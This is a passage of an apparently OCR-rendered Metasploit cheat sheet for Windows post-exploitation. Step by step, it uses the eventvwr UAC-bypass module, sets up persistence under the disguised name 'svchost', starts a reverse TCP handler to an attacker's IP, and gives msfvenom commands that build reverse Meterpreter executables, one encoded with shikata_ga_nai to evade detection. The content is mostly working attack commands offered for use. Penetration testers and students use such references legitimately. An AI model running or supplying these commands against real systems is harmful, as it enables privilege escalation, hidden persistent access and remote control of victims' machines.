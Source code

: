     > msf **exploit(exploit/multi/recon/local_exploit_suggester)** \> `use exploit/windows/local/bypassuac_eventvwr`
    >
    > [*] Using configured payload configured, defaulting to windows/meterpreter/reverse_tcp
    
    #### Make sure to set a unique port by making no clashes with the already opened ones. Use `sessions` command in msfc and under the **Connection column** check for the ports that are already used. Then,

    > msf **exploit(exploit/windows/local/bypassuac_eventvwr)** \> `set LPORT <unique_port>`
    >
    > msf **exploit(exploit/windows/local/bypassuac_eventvwr)** \> `set SESSION <backgrounded_meterpreter_session_ID>`
    >
    > msf **exploit(exploit/windows/local/bypassuac_eventvwr)** \> `run`

- #### Persistence / Maintaining Access:

  - #### We also need to maintain our session across target machine's restart. For that `background` the session if in foreground then `search persistence` in **msfc** and select the **local exploit** for the target machine as follows:

    > msf\> `use exploit/windows/local/persistence`
    >
    > [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    >
    > msf **exploit(windows/local/persistence)** \> `[show options | show advanced]`
    >
    > msf **exploit(windows/local/persistence)** \> `set LPORT 1234`
    >
    > msf **exploit(windows/local/persistence)** \> `set EXE_NAME svchost`
    >
    > msf **exploit(windows/local/persistence)** \> `set SESSION <backgrounded_meterpreter_session_ID>`
    >
    > msf **exploit(windows/local/persistence)** \> `run`

  - #### Now using the `exploit/multi/handler` module in **msfc** we can re-establish a communication channel with the target machine as follows:

    > msf> `use exploit/multi/handler`
    >
    > msf **exploit(multi/handler)** > `set payload windows/meterpreter/reverse_tcp`
    >
    > msf **exploit(multi/handler)** > `set LHOST <attacker's_ip>`
    >
    > msf **exploit(multi/handler)** > `set LPORT 1234`
    >
    > [*] Started reverse TCP handler on \<attacker's_ip\>:4444

---

#### Msfvenom Util:

- `msfvenom -p windows[/x64]/meterpreter/reverse_tcp LHOST=<attacker's_ip> LPORT=4444 -f exe > <payload_name>.exe` - Creating an x32 or x64 Windows Reverse Meterpreter Payload with no encoding
- `msfvenom --list encoders` - lists out all the available encoders
- `msfvenom --p windows/meterpreter/reverse_tcp LHOST=<attacker's_ip> LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -b '\x00\xff' > <payload_name>.exe` - Creating an x32 Windows Reverse Meterpreter Payload with **shikata_ga_nai** encoder with **5** iterations, avoiding bad characters '**\x00\xff**'
